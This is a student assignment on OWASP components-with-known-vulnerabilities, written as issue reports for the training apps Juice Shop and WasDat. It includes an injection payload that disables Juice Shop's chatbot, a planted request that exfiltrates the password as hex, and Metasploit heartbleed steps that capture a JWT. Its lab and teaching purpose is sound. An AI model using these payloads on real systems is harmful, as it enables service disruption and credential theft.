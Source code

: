 # Assignment 5

Student ID: AC3837

Student name: Thanaphon Sombunkaeo

Group ID: TTV19S1

## First part A9:2017-Using_Components_with_Known_Vulnerabilities (10 points)

1. [Watch, read and answer] (2 pts) 

   In your own words try to describe what all are included when speaking of web application components and their vulnerabilities
   
   **Ans:** There are many things that can include in component with vulnerabilities. These are example in web application.
   
   - Web server: such as struts of apeche web server
   - Database server: Java VM of Oracle database server
   - TLS/SSL: Heartbleed which there are still web application that use Heartbleed and has the culnerabilities.
   
   The **good** part of component with know vulnerabilities is that we can avoid using them to prevent the attacker. The **down** side is that attacker can easily search for web app that use that component and exploit them.
   
   These are list of how we **guard** the attacker from component with known vulnerabilities
   
   - Continuous inventory the version of client/servers component.
   - Download the software/component from ofiicial source
   - Plan for monitoring, patch, and config the component to ensure that the version is up to date.
   - Check the component with known vulnerabilities from CVE and NVD to avoid using them.
   
2. [Issue report] Juice Shop - Kill Chatbot (3 pts)

   **Title:** User can permanently disabled the support chat bot by exploit component with known vulnerabilities.

   **Description:** User can set the username to be some string that will inject the instruction inside chat bot component. So, they can add some instrcution to disable the chat bot.

   **Step to produce:**

   - Log in to juice shop and change your username to be `admin"); process=null; users.addUser("jwt","test`

   - Go to `/#/chatbot` and you will see that chat bot greeting you with user name of `admin`. After you type some thing to them, they will always response with `Oh no... Remember to stay hydrated when I'm gone... ` as shown below

     <img src="/Users/boyplus/Desktop/CS/JAMK/Web-App-Security/Week5/Screenshot/Screen Shot 2565-02-15 at 04.44.28.png" alt="Screen Shot 2565-02-15 at 04.44.28" style="zoom:50%;" />

     This works because we can see the source code of juicy chat bot in `https://github.com/juice-shop/juicy-chat-bot/blob/master/index.js` and we can inject the method `addUser` which the code is shown below.

     ```javascript
     addUser (token, name) {
       this.factory.run(`users.addUser("${token}", "${name}")`)
     }
     ```

     So when we set username to be `admin"); process=null; users.addUser("jwt","test`, the command will be

     `users.addUser("${token}", "admin"); process=null; users.addUser("jwt","test")` That means we set the `process` to be null to disable the chat bot.

   **Impact Estimation:** Medium serverity because attacker can disabled the chat bot service not just for only attacker but every users cannot use the chat bot service anymore.

   **Mitigation:**

   - Monitor the component which is unmaintained, in this case is juicy chat bot that attacker can inject the addUser method to run their desired command (this case is set process to be null to disabled chat bot). So, they shoudl escape the character properly.

3. [Issue report] WasDat Using Components with Vulnerabilities (5 pts)

   **Title:** Sensitive data of user is exposured in page login page

   **Description:** If user fill in the password and toggle the hide/show password button, wasdat will make a request to the third party server is located at `${encodedPassword}.wasdat-analytics.totallylegit` where encodedPassword is hex form of password that user fill in. Sensitive data is placed in `password` input. Password is encoded to `hex` string. Kind of exposed sensitive data is user's password.

   **Step to produce:**

   - Go to `#/login` fill in email and password then click on show button

   - After 5 seconds, frontend will make a request to `${encoded}.wasdat-analytics.totallylegit`  as shown below

     <img src="/Users/boyplus/Desktop/CS/JAMK/Web-App-Security/Week5/Screenshot/Screen Shot 2565-02-15 at 07.26.53.png" alt="Screen Shot 2565-02-15 at 07.26.53" style="zoom:50%;" />

   - Go to console and click on `ModernPassword.vue` to see source code of encoding the password

     ![Screen Shot 2565-02-15 at 07.27.53](/Users/boyplus/Desktop/CS/JAMK/Web-App-Security/Week5/Screenshot/Screen Shot 2565-02-15 at 07.27.53.png)

   - Here is the code and we can see that password is encoded to be `hex` format (in line 38)

     <img src="/Users/boyplus/Desktop/CS/JAMK/Web-App-Security/Week5/Screenshot/Screen Shot 2565-02-15 at 07.25.00.png" alt="Screen Shot 2565-02-15 at 07.25.00" style="zoom:50%;" />

   **Impact Estimation:** High serverity because the third party server can convert the `hex` of user's password to the actual password of user.

   **Mitigation:**

   - Avoid embed the sensitive data of user to the HTTP request of third party (this case is hex of user's password). If it is need to send the password to third party, develop could use `SHA-1` or another one way hash algorithm to embed the password.

## Second part A10_2017-Insufficient_Logging & Monitoring (10 points)

1. [Issue report] Using Components with Known Vulnerabilities: WasDat's heart is bleeding (5 pts)

   **Title:** Attacker can capture the HTTP request to wasdat and see some unencrypted data.

   **Description:** Since there is a known vulnerabilities in heartbleed version 1.0.1 and 1.0.2-beta and wasdat use this component. So, attacker can steal information intended to be protected by SSL/TSL encryption by using metasploit module.

   **Step to produce:**

   - Install nmap and metasploit

   - Run `nmap -sV -p 443 --script=ssl-heartbleed.nse 192.168.1.43` to scan the heartbleed vulnerabitity. `192.168.1.43` is the my private IP address that run wasdat application. Result is shown below

     <img src="/Users/boyplus/Desktop/CS/JAMK/Web-App-Security/Week5/Screenshot/Screen Shot 2565-02-16 at 02.55.58.png" alt="Screen Shot 2565-02-16 at 02.55.58" style="zoom:50%;" />

     You can see that there is a ssl-heartbleed vulnerability in wasdat application

   - Run msfconsole `/opt/metasploit-framework/bin/msfconsole`

     - Run `use auxiliary/scanner/ssl/openssl_heartbleed`

     - Run `set verbose true`

     - Run `set rhostss 192.168.1.43  ` 192.168.1.43 is the target IP address (wasdat)

     - Run `run` to exploit. If there is a request to wasdat, the result will be like this

       ![Screen Shot 2565-02-15 at 08.10.45](/Users/boyplus/Desktop/CS/JAMK/Web-App-Security/Week5/Screenshot/Screen Shot 2565-02-15 at 08.10.45.png)

     In this case you can see that we can capture the JWT of user for authorization

   **Impact Estimation:** High serverity because attacker can capture the sensitive data inside the HTTP request such as JWT of user.

   **Mitigation:**

   According to official website of heartbleed, there are two ways for mitigation

   - Upgrade to OpenSSL 1.0.1g
   - Recompile OpenSSL with -DOPENSSL_NO_HEARTBEATS

2. [Essay] Insufficient logging and monitoring (5 pts) 

   